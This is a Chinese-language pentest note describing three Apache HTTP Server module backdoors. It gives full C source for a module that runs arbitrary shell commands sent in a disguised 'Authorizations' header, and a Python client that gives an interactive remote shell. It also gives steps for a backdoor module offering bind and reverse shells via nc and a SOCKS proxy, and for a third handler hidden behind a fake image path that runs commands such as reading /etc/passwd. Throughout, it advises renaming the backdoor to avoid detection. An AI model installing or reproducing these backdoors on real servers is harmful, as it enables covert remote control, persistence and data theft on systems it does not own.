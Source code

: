  #### Apache Module后门1
	From:https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor
	生成模板结构
	>apxs -g -n auth
![image](/assets/Pentest_Note/master/img/620.png)
	
	编辑mod_auth.c文件
```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"
#include <stdio.h>
#include <stdlib.h>
static int auth_handler(request_rec *r)
{
    const apr_array_header_t    *fields;
    int                            i;
    apr_table_entry_t           *e = 0;
    char FLAG = 0;
    fields = apr_table_elts(r->headers_in);
    e = (apr_table_entry_t *) fields->elts;
    for(i = 0; i < fields->nelts; i++) {
        if(strcmp(e[i].key, "Authorizations") == 0){
            FLAG = 1;
            break;
        }
    }
    if (FLAG){
        char * command = e[i].val;
        FILE* fp = popen(command,"r");
        char buffer[0x100] = {0};
        int counter = 1;
        while(counter){
            counter = fread(buffer, 1, sizeof(buffer), fp);
            ap_rwrite(buffer, counter, r);
        }
        pclose(fp);
        return DONE;
    }
    return DECLINED;
}
static void auth_register_hooks(apr_pool_t *p)
{
    ap_hook_handler(auth_handler, NULL, NULL, APR_HOOK_MIDDLE);
}
module AP_MODULE_DECLARE_DATA auth_module = {
    STANDARD20_MODULE_STUFF, 
    NULL,                  /* create per-dir    config structures */
    NULL,                  /* merge  per-dir    config structures */
    NULL,                  /* create per-server config structures */
    NULL,                  /* merge  per-server config structures */
    NULL,                  /* table of config file commands       */
    auth_register_hooks  /* register hooks                      */
};

```
	编译后重启apache
	>apxs -i -a -c mod_auth.c && service apache2 restart
![image](/assets/Pentest_Note/master/img/621.png)

	原文件接受的头是backdoor太明显，这里换成了Authorizations
![image](/assets/Pentest_Note/master/img/622.png)
	
	或使用python来执行
![image](/assets/Pentest_Note/master/img/623.png)
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import sys
def exploit(host, port, command):
    headers = {
        "Authorizations": command
    }
    url = "http://%s:%d/" % (host, port)
    response = requests.get(url, headers=headers)
    content = response.content
    print content
def main():
    if len(sys.argv) != 3:
        print "Usage : "
        print "\tpython %s [HOST] [PORT]" % (sys.argv[0])
        exit(1)
    host = sys.argv[1]
    port = int(sys.argv[2])
    while True:
        command = raw_input("$ ")
        if command == "exit":
            break
        exploit(host, port, command)
if __name__ == "__main__":
    main()

```
 #### Apache Module后门2
	From:https://github.com/VladRico/apache2_BackdoorMod
	.load文件传入/etc/apache2/mods-available/目录，.so文件传入/usr/lib/apache2/modules/目录
	启动后门模块，重启apache
	>a2enmod backdoor&service apache2 restart
![image](/assets/Pentest_Note/master/img/624.png)

	Cookie里添加字段password=backdoor
	访问http://ip/ping返回如下图说明后门正常允许
![image](/assets/Pentest_Note/master/img/625.png)

	访问http://ip/bind/12345 开启正向连接，攻击机执行nc ip 12345即可
![image](/assets/Pentest_Note/master/img/626.png)

	访问http://ip/revtty/192.168.0.107/12138 开启反向连接，攻击机109执行nc监听12138即可
![image](/assets/Pentest_Note/master/img/627.png)

	访问http://ip/proxy/1337开启socks代理
![image](/assets/Pentest_Note/master/img/628.png)
![image](/assets/Pentest_Note/master/img/629.png)
![image](/assets/Pentest_Note/master/img/630.png)

	想要结束socks代理可执行
	>echo "imdonewithyou" |nc 192.168.0.111 1337
![image](/assets/Pentest_Note/master/img/631.png)

	即可结束socks代理
	以上原作者的文件命名backdoor太明显，可以自己修改文件重新编译
	创建模板结构命名为phpmodev
![image](/assets/Pentest_Note/master/img/632.png)
![image](/assets/Pentest_Note/master/img/633.png)

	修改cookie内容为迷惑字段Authorizations=PHPSESSIONID
![image](/assets/Pentest_Note/master/img/634.png)
 #### Apache Module后门3
	From: https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247491179&idx=1&sn=ab26fe36ac74f5b140e91279ae8018c7
	生成模板结构
	>apxs -g -n phpdevmod
![image](/assets/Pentest_Note/master/img/635.png)

	编辑mod_phpdevmod.c文件
	编译
	>make -e CC=x86_64-linux-gnu-g++
![image](/assets/Pentest_Note/master/img/636.png)

	生成的.so文件在/.libs目录下
![image](/assets/Pentest_Note/master/img/637.png)

	将其复制到/usr/lib/apache2/modules/目录
	修改/etc/apache2/mods-enabled/php7.0.load文件，添加如下
	LoadModule phpdevmod_module /usr/lib/apache2/modules/mod_phpdevmod.so
	<Location /qq.jpg>    #可以设置为任何不存在的文件
    	setHandler phpdevmod
	</Location>
![image](/assets/Pentest_Note/master/img/638.png)

	需重启apache服务
	访问后门方式http://ip/qq.jpg?命令的url编码
	直接访问后门文件
![image](/assets/Pentest_Note/master/img/639.png)

	636174202F6574632F706173737764为cat /etc/passwd的url编码
![image](/assets/Pentest_Note/master/img/640.png)